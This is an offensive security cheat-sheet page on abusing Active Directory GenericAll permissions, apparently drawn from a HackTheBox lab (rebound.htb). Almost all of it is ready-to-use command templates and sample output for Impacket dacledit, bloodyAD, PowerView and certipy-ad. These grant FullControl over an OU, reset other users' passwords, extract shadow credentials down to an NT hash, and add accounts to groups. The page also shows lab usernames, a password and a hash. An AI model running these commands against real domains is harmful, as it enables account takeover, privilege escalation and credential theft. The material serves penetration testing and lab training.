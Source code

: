 ```yaml
---
title: "GenericAll"
date: 2024-7-12
tags: ["Shadow Credentials", "Powerview", "Credential Dumping", "AddMember", "Impacket", "Genericall", "Domain Controller", "Active Directory", "Windows"]
---
```


### Abuse #1: Change target user password

{{< tab set1 tab1 >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Add Full Control to current user

{{< tab set1-1 tab1 active >}}impacket{{< /tab >}}{{< tab set1-1 tab2 >}}bloodyAD{{< /tab >}}
{{< tabcontent set1-1 tab1 >}}

#### Install latest impacket (included dacledit.py)

```console
git clone https://github.com/fortra/impacket.git
```

```console
cd impacket
```

```console
pip3 install .
```

#### Add Full Control to current user

```console
sudo ntpdate -s <DC> && dacledit.py -k '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC> -principal <USER> -target-dn 'OU=<TARGET_GROUP>,DC=<EXAMPLE>,DC=<COM>' -inheritance -action write -rights FullControl -use-ldaps
```

```console {class=sample-code}
$ dacledit.py -k 'rebound.htb/oorend:1GR8t@$$4u' -dc-ip 10.10.11.231 -principal oorend -target-dn 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' -inheritance -action write -rights FullControl -use-ldaps
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20240923-015912.bak
[*] DACL modified successfully!
```

{{< /tabcontent >}}
{{< tabcontent set1-1 tab2 >}}

```console
python3 bloodyAD.py -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> add genericAll 'OU=<TARGET_GROUP>,DC=<EXAMPLE>,DC=<COM>' '<USER>'
```

```console {class=sample-code}
$ python3 bloodyAD.py -d rebound.htb -u 'oorend' -p '1GR8t@$$4u' --host 10.10.11.231 add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' 'oorend'
[+] oorend has now GenericAll on OU=SERVICE USERS,DC=REBOUND,DC=HTB
```

{{< /tabcontent >}}

#### 2. Change password

{{< tab set1-2 tab1 active >}}bloodyAD{{< /tab >}}
{{< tabcontent set1-2 tab1 >}}

```console
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> set password '<TARGET_USER>' '<NEW_PASSWORD>'
```

```console {class="sample-code"}
$ python3 bloodyAD.py -d rebound.htb -u 'oorend' -p '1GR8t@$$4u' --host 10.10.11.231 set password 'winrm_svc' 'Test1234'
[+] Password changed successfully!
```

<small>*Ref: [bloodyAD](https://github.com/CravateRouge/bloodyAD)*</small>

{{< /tabcontent >}}
{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Import PowerView.ps1 

```console
. .\PowerView.ps1
```

```console {class=sample-code}
*Evil-WinRM* PS C:\programdata> . .\PowerView.ps1
```

#### 2. Change target user password

```console
$password = ConvertTo-SecureString <PASSWORD> -AsPlainText -Force 
```

```console {class=sample-code}
*Evil-WinRM* PS C:\programdata> $password = ConvertTo-SecureString Test1234 -AsPlainText -Force
```

```console
Set-DomainUserPassword -Identity <TARGET_USER> -AccountPassword $password
```

```console {class=sample-code}
*Evil-WinRM* PS C:\programdata> Set-DomainUserPassword -Identity superfume -AccountPassword $password
```

{{< /tabcontent >}}

---

### Abuse #2: Get shadow credentials

{{< tab set3 tab1 >}}Linux{{< /tab >}}
{{< tabcontent set3 tab1 >}}

#### 1. Add Full Control to current user

{{< tab set3-1 tab1 active >}}impacket{{< /tab >}}{{< tab set3-1 tab2 >}}bloodyAD{{< /tab >}}
{{< tabcontent set3-1 tab1 >}}

#### Install latest impacket (included dacledit.py)

```console
git clone https://github.com/fortra/impacket.git
```

```console
cd impacket
```

```console
pip3 install .
```

#### Add Full Control to current user

```console
sudo ntpdate -s <DC> && dacledit.py -k '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC> -principal <USER> -target-dn 'OU=<TARGET_GROUP>,DC=<EXAMPLE>,DC=<COM>' -inheritance -action write -rights FullControl -use-ldaps
```

```console {class="sample-code"}
$ dacledit.py -k 'rebound.htb/oorend:1GR8t@$$4u' -dc-ip 10.10.11.231 -principal oorend -target-dn 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' -inheritance -action write -rights FullControl -use-ldaps
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20240923-015912.bak
[*] DACL modified successfully!
```

{{< /tabcontent >}}
{{< tabcontent set3-1 tab2 >}}

```console
python3 bloodyAD.py -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> add genericAll 'OU=<TARGET_GROUP>,DC=<EXAMPLE>,DC=<COM>' '<USER>'
```

```console {class="sample-code"}
$ python3 bloodyAD.py -d rebound.htb -u 'oorend' -p '1GR8t@$$4u' --host 10.10.11.231 add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' 'oorend'
[+] oorend has now GenericAll on OU=SERVICE USERS,DC=REBOUND,DC=HTB
```

{{< /tabcontent >}}

#### 2. Get shadow credentials

```console
sudo ntpdate -s <DC> && certipy-ad shadow auto -username <USER>@<DOMAIN> -password '<PASSWORD>' -k -account <TARGET_USER> -target <DC>
```

```console {class="sample-code"}
$ sudo ntpdate -s dc01.rebound.htb && certipy-ad shadow auto -username oorend@rebound.htb -password '1GR8t@$$4u' -k -account winrm_svc -target dc01.rebound.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'winrm_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '22fdb427-7028-72b8-bc39-8f4674c644dd'
[*] Adding Key Credential with device ID '22fdb427-7028-72b8-bc39-8f4674c644dd' to the Key Credentials for 'winrm_svc'
[*] Successfully added Key Credential with device ID '22fdb427-7028-72b8-bc39-8f4674c644dd' to the Key Credentials for 'winrm_svc'
[*] Authenticating as 'winrm_svc' with the certificate
[*] Using principal: winrm_svc@rebound.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'winrm_svc.ccache'
[*] Trying to retrieve NT hash for 'winrm_svc'
[*] Restoring the old Key Credentials for 'winrm_svc'
[*] Successfully restored the old Key Credentials for 'winrm_svc'
[*] NT hash for 'winrm_svc': 4469650fd892e98933b4536d2e86e512
```

#### FIX: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)

```console
# No really a fix, need to runas administrator
gpupdate /force
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\Administrator\Documents> gpupdate /force
Updating policy...

Computer Policy update has completed successfully.

User Policy update has completed successfully.
```

{{< /tabcontent >}}

---

### Abuse #3 : Add user to group

{{< tab set4 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set4 tab1 >}}

#### 1. Import PowerView
```console
. .\PowerView.ps1
```

#### 2. Create a cred object (runas) \[optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 2. Add user to group

```console
Add-DomainGroupMember -Identity <TARGET_GROUP> -Members <USER> -Credential $cred
```

{{< /tabcontent >}}
